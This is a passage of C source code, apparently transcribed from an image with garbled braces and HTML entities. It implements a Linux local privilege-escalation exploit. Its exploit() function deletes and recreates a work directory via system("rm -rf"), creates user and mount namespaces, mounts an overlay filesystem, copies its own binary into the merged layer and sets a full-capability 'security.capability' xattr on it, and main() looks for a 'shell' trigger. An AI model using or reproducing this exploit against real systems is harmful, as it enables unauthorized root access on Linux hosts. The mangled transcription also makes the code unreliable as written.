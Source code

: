```
        while (rd &gt; 0) `{`
            wr = write(fo, p, rd);
            if (wr == -1) `{`
                if (errno == EINTR)
                    continue;
                err(1, "write %s", dst);
            `}`
            p += wr;
            rd -= wr;
        `}`
    `}`

    close(fi);
    close(fo);
`}`

static int exploit()
`{`
    char buf[4096];

    sprintf(buf, "rm -rf '%s/'", DIR_BASE);
    system(buf);

    mkdir(DIR_BASE, 0777);
    mkdir(DIR_WORK,  0777);
    mkdir(DIR_LOWER, 0777);
    mkdir(DIR_UPPER, 0777);
    mkdir(DIR_MERGE, 0777);



    if (unshare(CLONE_NEWNS | CLONE_NEWUSER) == -1)
        err(1, "unshare");

    writefile("/proc/self/setgroups", "deny");

    uid_t uid = getuid();
    gid_t gid = getgid();

    sprintf(buf, "0 %d 1", uid);
    writefile("/proc/self/uid_map", buf);

    sprintf(buf, "0 %d 1", gid);
    writefile("/proc/self/gid_map", buf);

    sprintf(buf, "lowerdir=%s,upperdir=%s,workdir=%s", DIR_LOWER, DIR_UPPER, DIR_WORK);
    if (mount("overlay", DIR_MERGE, "overlay", 0, buf) == -1)
        err(1, "mount %s", DIR_MERGE);

    // all+ep
    char cap[] = "\x01\x00\x00\x02\xff\xff\xff\xff\x00\x00\x00\x00\xff\xff\xff\xff\x00\x00\x00\x00";

    copyfile("/proc/self/exe", BIN_MERGE, 0777);
    if (setxattr(BIN_MERGE, "security.capability", cap, sizeof(cap) - 1, 0) == -1)
        err(1, "setxattr %s", BIN_MERGE);

    return 0;
`}`

int main(int argc, char *argv[])
`{`
    if (strstr(argv[0], "magic") || (argc &gt; 1 &amp;&amp; !strcmp(argv[1], "shell"))) `{`
```